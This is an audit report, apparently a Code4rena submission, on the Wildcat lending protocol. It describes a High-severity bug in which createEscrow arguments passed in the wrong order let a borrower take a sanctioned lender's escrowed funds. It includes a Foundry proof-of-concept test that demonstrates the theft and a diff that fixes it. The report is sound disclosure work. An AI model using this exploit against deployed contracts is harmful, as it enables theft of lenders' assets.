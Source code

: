 # Venus Prime

The code under review can be found in [2023-10-wildcat](https://github.com/code-423n4/2023-10-wildcat).

## Findings summary

| ID       | Title                                                         | Severity |
| -------- | ------------------------------------------------------------- | -------- |
| [H-01]() | Borrower will steal lender's funds if lender gets sanctioned. | High     |
| [H-02]() | Missing function to close a market.                           | High     |

## [H-01] Borrower will steal lender's funds if lender gets sanctioned.

### Vulnerability details

In an event if lender gets sanctioned, borrower can call `nukeFromOrbit()` to block him from interacting with market, which will transfer all of lender's market tokens to an escrow. Also if a lender tries to execute a withdrawal while being sanctioned, protocol will automatically block him and transfer all of his money to a newly created escrow. This functionality exists to ensure a sanctioned address won't poison everyone else. But in the current implementation if a lender gets sanctioned, borrower is able to steal all of his funds that are to be transferred to an escrow.

When lender gets blocked, an escrow is deployed through a function in `WildcatSanctionsSentinel.sol`:

```solidity
function createEscrow(
    address borrower,
    address account,
    address asset
  ) public override returns (address escrowContract) {
```

Both time this function is called in `_blockAccount()` and `executeWithdrawal()` the order of arguments passed into the function is wrong.

```solidity
address escrow = IWildcatSanctionsSentinel(sentinel).createEscrow(
          accountAddress,
          borrower,
          address(this)
```

The account parameter in escrow will actually be set to borrower, meaning funds that should be transferred back to lender in the `releaseEscrow()` function will be transferred to borrower:

```solidity
function releaseEscrow() public override {
    if (!canReleaseEscrow()) revert CanNotReleaseEscrow();

    uint256 amount = balance();

    IERC20(asset).transfer(account, amount);

    emit EscrowReleased(account, asset, amount);
  }
}
```

### Impact

Borrower will steal all of the lender's assets.

### Proof Of Concept

```js
function test_BorrowerCanStealLendersDepositOfMarketToken() external {
       address asset = market.asset();
        // Alice deposits 1e18
        _deposit(alice, 1e18);
        assertEq(market.balanceOf(alice), 1e18);
        // Alice gets sanctioned
        sanctionsSentinel.sanction(alice);
        // NukeFromOrbit is called
        market.nukeFromOrbit(alice);
        assertEq(market.balanceOf(alice), 0);

        // Escrow is deployed to this address
        address escrow = sanctionsSentinel.getEscrowAddress(
            alice,
            borrower,
            address(market)
        );
        // Now all balance of alice is transferred to escrow
        assertEq(market.balanceOf(escrow), 1e18);
        // At this point balance of the borrower is 0
        assertEq(market.balanceOf(borrower), 0);
        // Release Escrow is called, which should:
        // 1. Revert as alice is still sanctioned
        // 2. If alice would not have been sanctioned, it should've transferred escrow balance to her
        IWildcatSanctionsEscrow(escrow).releaseEscrow();
        console.log("Escrow Balance", market.balanceOf(escrow));
        console.log("Borrower Balance of Market tokens", market.balanceOf(borrower));
        // Now all of the alice balance was transferred to borrower
        assertEq(market.balanceOf(borrower), 1e18);
        assertEq(market.balanceOf(alice), 0);

        address controller = market.controller();
        // Now borrower can withdraw her balance
        vm.startPrank(borrower);
        address[] memory lenders = new address[](1);
        lenders[0] = borrower;
        address[] memory markets = new address[](1);
        markets[0] = address(market);
        // Authorize borrower as a lender in order to withdraw
        IWildcatMarketController(controller).authorizeLenders(lenders);
        IWildcatMarketController(controller).updateLenderAuthorization(
            borrower,
            markets
        );
        uint256 balanceBorrower = IERC20(asset).balanceOf(borrower);
        console.log("Balance of borrower before withdrawal", balanceBorrower);
        market.queueWithdrawal(1e18);
        uint256 batchDuration = market.withdrawalBatchDuration();
        uint32 expiry = uint32(block.timestamp + batchDuration);
        skip(batchDuration);
        market.executeWithdrawal(borrower, expiry);
        uint256 balanceBorrowerAfter = IERC20(asset).balanceOf(borrower);
        assertEq(balanceBorrowerAfter, 1e18);
        console.log(
            "Balance of borrower after withdrawal",
            balanceBorrowerAfter
        );
    }

    function test_BorrowerCanStealLendersDepositOfUnderlying() external {
        address asset = market.asset();
        _deposit(alice, 1e18);
        // address of the escrow that will be deployed for alice
        address escrow = sanctionsSentinel.getEscrowAddress(
            alice,
            borrower,
            asset
        );
        address[] memory lenders = new address[](1);
        lenders[0] = alice;
        address[] memory markets = new address[](1);
        markets[0] = address(market);
        // Sanction alice
        sanctionsSentinel.sanction(alice);
        vm.startPrank(alice);
        // Alice queues a withdrawal
        market.queueWithdrawal(1e18);
        uint256 batchDuration = market.withdrawalBatchDuration();
        uint32 expiry = uint32(block.timestamp + batchDuration);
        skip(batchDuration);
        // Because she is blocked, here balance is transferred to an escrow
        market.executeWithdrawal(alice, expiry);
        vm.stopPrank();

        uint256 balanceOfEscrowBeforeRelease = IERC20(asset).balanceOf(escrow);
        console.log("Balance Of Escrow", balanceOfEscrowBeforeRelease);
        // Now releaseEscrow is called
        // It should revert since Alice is still sanctioned
        // And if she was not sanctioned, it should transfer the balance of underlying to her
        vm.prank(borrower);
        IWildcatSanctionsEscrow(escrow).releaseEscrow();
        // Balance of escrow has been transferred
        uint256 balanceOfEscrowAfterRelese = IERC20(asset).balanceOf(escrow);
        console.log(
            "Balance Of Escrow After Relese",
            balanceOfEscrowAfterRelese
        );
        // But it was transferred to the borrower
        uint256 balanceOfBorrowerAfterRelease = IERC20(asset).balanceOf(
            borrower
        );
        console.log(
            "Balance Of Borrower After Release",
            balanceOfBorrowerAfterRelease
        );
    }
```

### Recommended Mitigation Steps

When calling `createEscrow()` ensure that order of arguments passed into a function is correct.

```diff
address escrow = IWildcatSanctionsSentinel(sentinel).createEscrow(
-         accountAddress,
+         borrower,
-         borrower,
+         accountAddress,
          address(this)
```
